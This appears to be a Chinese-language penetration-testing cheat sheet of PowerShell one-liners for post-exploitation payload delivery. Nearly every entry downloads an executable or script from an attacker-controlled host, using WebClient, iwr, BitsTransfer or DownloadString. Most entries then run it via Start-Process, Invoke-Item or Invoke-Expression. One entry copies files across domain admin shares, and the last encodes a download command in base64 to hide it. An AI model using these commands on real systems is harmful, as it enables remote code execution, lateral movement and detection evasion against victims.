   #### 1
	注意：内核5.2以下版本可能无效
	>powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.1.1/Client.exe','C:\1.exe'); start-process 'c:\1.exe'
	>powershell 
	>(New-Object System.Net.WebClient).DownloadFile('http://192.168.0.108/1.exe',"$env:APPDATA\csrsv.exe");Start-Process("$env:APPDATA\csrsv.exe")
  #### 2
	PS>Copy-Item '\\sub2k8.zone.com\c$\windows\1.txt' -Destination '\\dc.zone.com\c$\1.txt'
  #### 3
	>powershell ($dpl=$env:temp+'f.exe');(New-Object System.Net.WebClient).DownloadFile('http://192.168.0.108/ok.txt',$dpl);
  #### 4
	高版本
	PS>iwr -Uri http://192.168.0.106:1222/111.txt -OutFile 123.txt –UseBasicParsing
  #### 5
	C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Templates
	>Import-Module BitsTransfer
	>$path = [environment]::getfolderpath("temp")
	>Start-BitsTransfer -Source "http://192.168.0.108/ok.txt" -Destination "$path\ok.txt"
	>Invoke-Item  "$path\ok.txt"
  #### 6
  	Invoke-Expression (New-Object Net.WebClient).DownloadString("http://xxx.xx.xx.xx/test.ps1")
  #### 7 
	echo (new-object System.Net.WebClient).DownloadFile('http://192.168.1.3/tomcat.exe','C:/Users/test/cc.exe')| powershell -
  #### 8
	$Text = "(new-object System.Net.WebClient).DownloadFile('http://xxxxxxxxxx/evil.txt','evil.txt')"
	$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
	$EncodedText =[Convert]::ToBase64String($Bytes)
	$EncodedText
	解码
	$EncodedText = "dwByAGkAxxxxxxxxxxxxxxxxxxxAG0AbgB0AG4AJwA="
	$DecodedText = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($EncodedText))
	$DecodedText
